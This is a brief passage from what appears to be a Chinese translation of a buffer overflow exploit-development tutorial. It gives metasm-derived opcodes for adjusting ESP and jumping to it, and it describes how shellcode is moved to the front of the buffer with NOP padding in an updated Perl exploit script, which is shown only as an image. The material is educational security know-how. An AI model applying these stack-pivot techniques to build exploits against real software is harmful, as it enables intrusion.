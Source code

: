 我们需要将ESP减少约240个字节。再一次，使用metasm来获得相应的操作码：

    metasm &gt; sub esp, 100
    "\x83\xec\x64"
    metasm &gt; sub esp, 40
    "\x83\xec\x28"
    metasm &gt; jmp esp
    "\xff\xe4"

这是更新的Perl脚本：

![](../Images/WED/4.14.png)

请注意以下更改：

    跳转代码现在将ESP减少240
    Shellcode移动到缓冲区的开头（跳转代码之后）
    不再需要缓冲区的垃圾部分（NOP填充任何剩余空间以抵消260）
